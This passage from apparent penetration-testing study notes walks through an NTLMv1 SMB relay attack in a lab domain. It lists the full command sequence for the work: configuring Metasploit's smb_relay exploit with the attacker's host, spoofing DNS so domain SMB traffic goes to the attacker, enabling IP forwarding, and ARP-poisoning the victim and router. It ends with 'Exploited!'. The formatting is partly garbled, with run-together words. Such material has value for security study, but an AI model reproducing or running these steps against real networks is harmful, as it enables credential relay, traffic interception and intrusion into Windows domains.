








3. NTLMv1 Relay (Metasploit)
*Only work if "Network security: LAN Manager
authentication level" is set to "Send LM & NTLM responses"
To do it(Windows 7): search bar
→ “Edit group policy” → Local Policies → Security Options
or see
here
←
To exploit the NTLMv1 protocol we are going to use the module
https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay(exploit/windows/smb/smb_relay)
Worth
noting though that
this module only supports
NTLMv1Analyze with Wireshark the Network and observe that 172.16.5.30 issues a SMB
connection to any hosts on the *.sportsfoo.com domain
 Attack Schematized 
Exploit:
service postgresql start
msfdb init
msfconsole
use exploit/windows/smb/smb_relay
show options
set SMBHOST <Server_IP> #Domain Controller
set LHOST <Attacker_Interface_IP>
set SRVHOST <Attacker_Interface_IP>
run

Configure dnsspoof
configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an
SMB connection to any host in the domain: sportsfoo.com
echo "172.16.5.150 *.sportsfoo.com" > dns.txt
dnsspoof -i tap0 -f dns.txt
 .... after some time
...
Activate the
MiTM attack using the ARP Spoofing technique (To understand it check chapter
ARP
Cache Poisoning)
Enable IP forwarding on the attacker machine
echo 1 > /proc/sys/net/ipv4/ip_forward
Note that the 172.16.50.10 is not the name server, in fact there are no DNS queries to
172.16.5.10, the name server is outside the network. Because of that we need to use 172.16.5.1 that is the address
of the router
In two separated terminals, start the ARP Spoof attack against 172.16.5.30 and respectively
172.16.5.1 using these commands:
arpspoof -i tap0 -t 172.16.5.30 172.16.5.1

arpspoof -i tap0 -t 172.16.5.1 172.16.5.30
Exploited!Bibliography:
https://ivanitlearning.wordpress.com/2018/11/22/dns-enumeration-smb-relay/